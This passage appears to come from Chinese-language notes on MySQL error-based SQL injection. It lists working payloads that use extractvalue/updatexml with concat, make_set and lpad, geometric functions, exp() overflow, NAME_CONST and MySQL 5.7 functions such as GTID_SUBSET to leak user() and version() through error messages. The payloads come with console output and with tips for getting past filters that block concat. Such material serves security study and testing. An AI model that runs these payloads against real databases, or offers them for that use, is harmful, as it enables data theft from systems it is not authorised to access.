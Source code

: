 ```
mysql> select * from mysql.user where user = 'root' and extractvalue(1,concat(0x5c,user()));
ERROR 1105 (HY000): XPATH syntax error: '\root@localhost'
mysql> select * from mysql.user where user = 'root' and updatexml(1,concat(0x5c,user()),1);
ERROR 1105 (HY000): XPATH syntax error: '\root@localhost'
```
如果concat被过滤了，可以使用其他函数代替   
MAKE_SET(bits,str1,str2,…)
```
mysql> select * from mysql.user where user = 'root' and extractvalue(1,make_set(3,'~',version()));
ERROR 1105 (HY000): XPATH syntax error: '~,5.5.40-log'
```
lpad()
```
mysql> SELECT LPAD('hi',4,'??'); -> '??hi'
mysql> select * from mysql.user where user = 'root' and extractvalue(1,lpad((version()),20,'@'));
ERROR 1105 (HY000): XPATH syntax error: '@@@@@@@@@5.5.40-log'
```
#### 3.几何函数
几何函数有：geometrycollection()，multipoint()，polygon()，multipolygon()，linestring()，multilinestring()
一些函数在Mysql 5.0.中存在但是不会报错,5.1后才可以报错   
>geometrycollection()
multipoint()
polygon()
multipolygon()
linestring()
multilinestring()
exp()

```
mysql> select multipoint((select * from (select * from (select * from (select version())a)b)c));
ERROR 1367 (22007): Illegal non geometric '(select `c`.`version()` from (select '5.5.40-log' AS `version()` from dual) `c`)' va
//exp
select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));
```
#### 4.值类型超出范围
在MySQL版本大于等于5.5.5的的时候才能用
double型函数exp()超出范围
这个函数是以e为底的对数函数
```
select exp(~(select*from(select user())x))
```
#### 5.数据重复
这里的version()出现了2次，所以报错。
比较鸡肋无法构造语句。    
```
select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x
```
#### 6.补充
在MySQL5.7中多了很多能报错的函数   
>ST_LatFromGeoHash()
ST_LongFromGeoHash()
GTID_SUBSET()
GTID_SUBTRACT()
ST_PointFromGeoHash()
```
mysql> select ST_LatFromGeoHash(version());
ERROR 1411 (HY000): Incorrect geohash value: '5.7.12-log' for function ST_LATFROMGEOHASH
mysql> select ST_LongFromGeoHash(version());
ERROR 1411 (HY000): Incorrect geohash value: '5.7.12-log' for function ST_LONGFROMGEOHASH
mysql> select GTID_SUBSET(version(),1);
ERROR 1772 (HY000): Malformed GTID set specification '5.7.12-log'.
mysql> select GTID_SUBTRACT(version(),1);
```